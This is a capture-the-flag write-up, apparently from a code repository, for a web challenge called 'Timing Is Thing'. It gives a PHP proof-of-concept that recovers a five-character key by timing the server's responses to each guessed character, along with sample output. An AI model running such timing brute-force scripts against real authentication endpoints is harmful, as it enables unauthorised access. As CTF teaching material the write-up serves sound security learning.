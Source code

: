 ## Timing Is Thing (Web Exploitation)
No another way to find my key, keep your pc Online **Kunci adalah [a-zA-Z0-9]**

### Reference
- https://en.wikipedia.org/wiki/Brute-force_attack

### Proof of Concept
- Make simple script for solve this challenges
	- Example code
	```php
	error_reporting(0); // ignore http error 500

	$key = "00000"; // initial key
	foreach (str_split($key) as $u => $asu) {
	    list($max, $result) = [0, null];
	    foreach (array_merge(range("a", "z"), range("A", "Z"), range("0", "9")) as $i => $x) {
	        $key[$u] = $x; // replace key index 0..4

	        echo "[*] Trying {$key}... ";
	        $start = microtime(true);
	        file_get_contents("http://ctfs-chall1.herokuapp.com/bruteforce-key/?kunci={$key}");
	        $end = microtime(true);

	        $tmp[] = [$x, number_format(($end - $start), 2)]; // save time exec to temporary variable
	        printf("[%sms]" . PHP_EOL, $tmp[count($tmp) - 1][1]);
	    }

	    echo PHP_EOL . "[!] Compare time..." . PHP_EOL;
	    foreach ($tmp as $datas) {
	        // comparing time exec, get max time execution
	        if ($datas[1] > $max) {
	            $max      = $datas[1];
	            $result[] = $datas[0];
	        }
	    }

	    $key[$u] = $result[count($result) - 1];
	    printf("[*] Max time: %s\n[*] Temp Key: %s" . PHP_EOL . PHP_EOL, $max, $key);
	}

	printf(PHP_EOL . "[*] Final Key: %s\n[!] Sending key to server..\n[*] Flag: CTFS%s" . PHP_EOL, $key, explode('CTFS', file_get_contents("http://ctfs-chall1.herokuapp.com/bruteforce-key/?kunci={$key}"))[1]);
	```

	- Usage
	```
	php {file}.php
	[*] Trying 00000... [{time}ms]
	.
	.
	.
	[*] Trying 99999... [{time}ms]

	[*] Final Key: **censored** (u can try it yourself, read the introduction in README.md)
	[!] Sending key to server..
	[*] Flag: CTFS{}
	```